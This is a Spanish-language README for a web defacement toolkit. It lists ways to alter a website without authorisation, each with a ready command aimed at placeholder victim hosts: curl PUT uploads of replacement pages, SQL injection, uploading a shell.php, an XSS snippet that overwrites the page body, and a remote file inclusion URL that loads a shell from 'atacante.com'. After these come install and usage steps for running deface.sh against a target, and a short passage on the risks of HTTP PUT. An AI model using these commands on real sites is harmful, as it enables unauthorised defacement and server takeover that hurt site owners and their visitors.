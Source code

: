 ## Defacement web; 

modifica o reemplaza el contenido de un sitio web sin autorización

## Metodos mas usados para deface web 

## 1.- Metodo PUT

curl -X PUT -d "@index25.htm" http://victima.com/index.htm

## 2.-Metodo SQKi Inyección SQL

curl -s "${URL}${VULN_PATH}${TEST_PAYLOAD}

## 3.- Metodo upload, subir una shell.php

curl -F "file=@shell.php" http://victima.com/upload

## 4.- Metodo XSS

<script>document.body.innerHTML = "HACKED";</script>

## 5 - Metodo Vulnerabilidades en CMS (WordPress, Joomla, Drupal), credenciales debiles


## 6.- Metodo remote File Inclusion (RFI) / Local File Inclusion (LFI)

http://victima.com/index.php?page=http://atacante.com/shell.php



## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index2.htm" "https://IP/index2.htm" -vv

## Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

## Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.



http://www.hackingyseguridad.com/
